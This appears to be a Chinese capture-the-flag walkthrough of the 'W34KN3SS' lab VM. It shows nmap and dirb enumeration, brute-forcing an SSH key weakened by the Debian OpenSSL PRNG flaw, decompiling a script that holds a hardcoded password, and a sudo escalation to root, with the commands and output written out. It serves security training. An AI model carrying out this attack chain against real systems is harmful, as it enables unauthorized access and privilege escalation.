


## 端口扫描

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p 22,80,443 192.168.1.106
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 20:53 CST
Nmap scan report for 192.168.1.106
Host is up (0.0014s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 de:89:a2:de:45:e7:d6:3d:ef:e9:bd:b4:b6:68:ca:6d (RSA)
|   256 1d:98:4a:db:a2:e0:cc:68:38:93:d0:52:2a:1a:aa:96 (ECDSA)
|_  256 3d:8a:6b:92:0d:ba:37:82:9e:c3:27:18:b6:01:cd:98 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| ssl-cert: Subject: commonName=weakness.jth/organizationName=weakness.jth/stateOrProvinceName=Jordan/countryName=jo
| Not valid before: 2018-05-05T11:12:54
|_Not valid after:  2019-05-05T11:12:54
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 08:00:27:7E:A2:A0 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP
Running: Linux 2.4.X|2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22
OS details: Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT --script vuln -p 22,80,443 192.168.1.106
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 20:54 CST
Nmap scan report for 192.168.1.106
Host is up (0.0012s latency).

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum:
|   /blog/: Blog
|   /test/: Test page
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
443/tcp open  https
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|   /blog/: Blog
|   /test/: Test page
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
MAC Address: 08:00:27:7E:A2:A0 (Oracle VirtualBox virtual NIC)
```

## web渗透

根据
```bash
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| ssl-cert: Subject: commonName=weakness.jth/organizationName=weakness.jth/stateOrProvinceName=Jordan/countryName=jo
```
得到该网站的域名是weakness.jth

得到用户名
目录扫描
```bash
┌──(kali㉿kali)-[~/workspace/sshkey/rsa/2048]
└─$ dirb http://weakness.jth

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu May 23 22:13:28 2024
URL_BASE: http://weakness.jth/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://weakness.jth/ ----
+ http://weakness.jth/index.html (CODE:200|SIZE:526)
==> DIRECTORY: http://weakness.jth/private/
+ http://weakness.jth/robots.txt (CODE:200|SIZE:14)
+ http://weakness.jth/server-status (CODE:403|SIZE:300)

---- Entering directory: http://weakness.jth/private/ ----
==> DIRECTORY: http://weakness.jth/private/assets/
==> DIRECTORY: http://weakness.jth/private/files/
+ http://weakness.jth/private/index.html (CODE:200|SIZE:989)

---- Entering directory: http://weakness.jth/private/assets/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://weakness.jth/private/files/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Thu May 23 22:13:38 2024
DOWNLOADED: 9224 - FOUND: 4
```

得到两个文件

mykey.pub
```bash
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw== root@targetcluster
```
notes.txt
```bash
this key was generated by openssl 0.9.8c-1
```

```bash
┌──(kali㉿kali)-[~/workspace/sshkey/rsa/2048]
└─$ searchsploit openssl 0.9.8c-1
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force SSH                                   | linux/remote/5622.txt
OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force SSH                                   | linux/remote/5720.py
OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force SSH (Ruby)                            | linux/remote/5632.rb
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
爆破ssh密钥

```bash
┌──(kali㉿kali)-[~/workspace/sshkey/rsa/2048]
└─$ grep -lr 'AAAAB3NzaC1yc2EAAAABIwAAAQEApC39u'
4161de56829de2fe64b9055711f531c1-2537.pub

┌──(kali㉿kali)-[~/workspace/sshkey/rsa/2048]
└─$ cat 4161de56829de2fe64b9055711f531c1-2537.pub
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw== root@targetcluster

┌──(kali㉿kali)-[~/workspace/sshkey/rsa/2048]
└─$ cat ../../mykey.pub
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw== root@targetcluster
```
发现ssh相同公钥，找对应密钥连接，用户名n30

```bash
┌──(root㉿kali)-[/home/kali/workspace/sshkey]
└─# ssh -i root -oHostKeyAlgorithms=ssh-rsa,ssh-dss n30@192.168.10.25
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Tue Aug 14 13:29:20 2018 from 192.168.209.1
n30@W34KN3SS:~$ whoami
n30
n30@W34KN3SS:~$ ls -la
total 44
drwxr-xr-x 5 n30  n30  4096 Aug 14  2018 .
drwxr-xr-x 3 root root 4096 May  5  2018 ..
-rw------- 1 n30  n30    25 Aug 14  2018 .bash_history
-rw-r--r-- 1 n30  n30   220 May  5  2018 .bash_logout
-rw-r--r-- 1 n30  n30  3771 May  5  2018 .bashrc
drwx------ 2 n30  n30  4096 May  5  2018 .cache
-rwxrwxr-x 1 n30  n30  1138 May  8  2018 code
drwxrwxr-x 3 n30  n30  4096 May  5  2018 .local
-rw-r--r-- 1 n30  n30   818 May  7  2018 .profile
drwxrwxr-x 2 n30  n30  4096 May  5  2018 .ssh
-rw-r--r-- 1 n30  n30     0 May  5  2018 .sudo_as_admin_successful
-rw-rw-r-- 1 n30  n30    33 May  8  2018 user.txt
n30@W34KN3SS:~$ cat user.txt
25e3cd678875b601425c9356c8039f68
n30@W34KN3SS:~$
```

发现一个code文件
```bash
n30@W34KN3SS:~$ file code
code: python 2.7 byte-compiled
```

```py
import os, socket, time, hashlib
print ('[+]System Started at : {0}').format(time.ctime())
print '[+]This binary should generate unique hash for the hardcoded login info'
print '[+]Generating the hash ..'
inf = ''
inf += chr(ord('n'))
inf += chr(ord('3'))
inf += chr(ord('0'))
inf += chr(ord(':'))
inf += chr(ord('d'))
inf += chr(ord('M'))
inf += chr(ord('A'))
inf += chr(ord('S'))
inf += chr(ord('D'))
inf += chr(ord('N'))
inf += chr(ord('B'))
inf += chr(ord('!'))
inf += chr(ord('!'))
inf += chr(ord('#'))
inf += chr(ord('B'))
inf += chr(ord('!'))
inf += chr(ord('#'))
inf += chr(ord('!'))
inf += chr(ord('#'))
inf += chr(ord('3'))
inf += chr(ord('3'))
hashf = hashlib.sha256(inf + time.ctime()).hexdigest()
print ('[+]Your new hash is : {0}').format(hashf)
print '[+]Done'
```
反编译得到密码信息
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ cat pass |awk -F "'" '{print $2}' |tr -d '\n'
n30:dMASDNB!!#B!#!#33
```

```bash
n30@W34KN3SS:~$ sudo -l
[sudo] password for n30:
Matching Defaults entries for n30 on W34KN3SS:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User n30 may run the following commands on W34KN3SS:
    (ALL : ALL) ALL
n30@W34KN3SS:~$ sudo bahs
sudo: bahs: command not found
n30@W34KN3SS:~$ sudo bash
root@W34KN3SS:~# whoami
root
root@W34KN3SS:~# ls /root
root.txt
root@W34KN3SS:~# cat /root/root.txt
a1d2fab76ec6af9b651d4053171e042e
```
